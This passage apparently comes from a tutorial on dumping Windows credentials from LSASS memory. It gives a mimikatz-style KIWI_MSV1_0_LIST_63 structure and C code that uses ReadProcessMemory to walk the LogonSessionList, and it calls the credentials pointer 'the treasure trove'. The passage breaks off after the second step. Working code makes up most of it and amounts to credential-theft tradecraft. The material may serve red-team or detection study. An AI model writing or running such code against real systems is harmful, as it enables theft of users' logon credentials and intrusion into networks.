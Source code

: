 ```c
    PVOID unk15;
    LSA_UNICODE_STRING Type;
    PSID pSid;
    ULONG LogonType;
    PVOID unk18;
    ULONG Session;
    LARGE_INTEGER LogonTime;
    LSA_UNICODE_STRING LogonServer;
    KIWI_MSV1_0_CREDENTIALS* Credentials;
    PVOID unk19;
    PVOID unk20;
    PVOID unk21;
    ULONG unk22;
    ULONG unk23;
    ULONG unk24;
    ULONG unk25;
    ULONG unk26;
    PVOID unk27;
    PVOID unk28;
    PVOID unk29;
    PVOID CredentialManager;
} KIWI_MSV1_0_LIST_63, * PKIWI_MSV1_0_LIST_63;
```

The treasure trove is located within `KIWI_MSV1_0_CREDENTIALS* Credentials`.  But lets not forget that we dont actually have this entire struct in our local process's memory right now, we simply have a pointer to it in lsass's memory.

So the first thing we need to do is get this struct inside of our processes memory so we can view its elements:

```c

void userlandExtraction(HANDLE hTarget, PVOID pLogonSessionList) {
	// Step 1: read the head pointer (points into LSASS memory)
	PKIWI_MSV1_0_LIST_63 headPtr = NULL;
	if (!ReadProcessMemory(hTarget, pLogonSessionList, &headPtr, sizeof(headPtr), NULL) || !headPtr) {
		printf("[-] Failed to read head pointer\n");
		return;
	}
```

From here we now have the pointer to the LogonSessionList stored inside of `headPtr`.  We dont have the actual structure yet so we need to read the memory at that pointer's address to get access to the struct:

```c
	// Step 2: read the head node structure
	KIWI_MSV1_0_LIST_63 head = { 0 };
	if (!ReadProcessMemory(hTarget, headPtr, &head, sizeof(head), NULL)) {
		printf("[-] Failed to read head struct\n");
		return;
	}
```
